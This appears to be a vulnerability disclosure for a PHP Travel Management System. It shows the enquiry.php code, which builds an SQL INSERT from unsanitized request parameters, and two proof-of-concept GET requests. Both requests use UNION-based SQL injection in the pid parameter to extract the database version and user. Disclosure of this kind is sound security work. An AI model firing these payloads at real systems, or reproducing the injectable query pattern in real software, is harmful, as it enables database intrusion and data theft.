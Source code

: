 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/travel-management-system-using-php-source-code/



## Vulnerability file



/enquiry.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
if(isset($_POST["sbmt"]))
{
	$cn=makeconnection();
	$s="insert into enquiry(Packageid,Name,Gender,Mobileno,Email,NoofDays,Child,Adults,Message,Statusfield) values('" . $_REQUEST["pid"] ."','" . $_POST["t1"] ."','" . $_POST["r1"] ."','" . $_POST["t2"] ."','" . $_POST["t3"] ."','" . $_POST["t4"] ."','" . $_POST["t5"] ."','" . $_POST["t6"] ."','" . $_POST["t7"] ."','Pending')";	
	
	
		mysqli_query($cn,$s);
	
	echo "<script>alert('Record Save');</script>";
}
?>
```

## POC1

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

(https://github.com/Huandtx/cve/blob/main/cve/Travel%20Management%20System/image-20250104133254893.png)

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

![image-20250104133602150](E:\work\me\cve\cve\Travel Management System\image-20250104133602150.png)

![image-20250104133733397](E:\work\me\cve\cve\Travel Management System\image-20250104133733397.png)
